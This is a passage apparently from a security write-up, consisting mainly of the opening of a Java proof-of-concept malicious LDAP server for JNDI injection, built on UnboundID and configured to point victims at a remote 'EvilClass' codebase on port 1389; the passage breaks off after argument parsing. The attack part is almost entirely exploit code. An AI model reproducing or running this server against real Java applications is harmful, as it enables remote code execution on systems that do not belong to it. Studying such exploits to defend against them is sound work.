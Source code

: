 [![serialize3.png](assets/1699929760-63b202747f3903fa1c07c90c2286c731.png)](https://storage.tttang.com/media/attachment/2022/05/25/6f3b9090-de13-46b7-9447-5058855844cc.png)

#### [Poc](#toc_poc_1)

```plain
import com.alter.JNDI_LDAP.util.serializeObject;
import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;

import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;


import static com.alter.JNDI_LDAP.util.serializeObject.getPayload;
import static com.alter.JNDI_LDAP.util.serializeObject.serializeObject;

public class Ldap {
    private static final String LDAP_BASE = "dc=example,dc=com";

    public static void main(String[] argsx) {
        String[] args = new String[]{"http://127.0.0.1:8000/#EvilClass", "1389"};
        int port = 0;
        if (args.length < 1 || args[0].indexOf('#') < 0) {
            System.err.println(Ldap.class.getSimpleName() + " <codebase_url#classname> [<port>]"); //$NON-NLS-1$
            System.exit(-1);
        } else if (args.length > 1) {
            port = Integer.parseInt(args[1]);
        }
```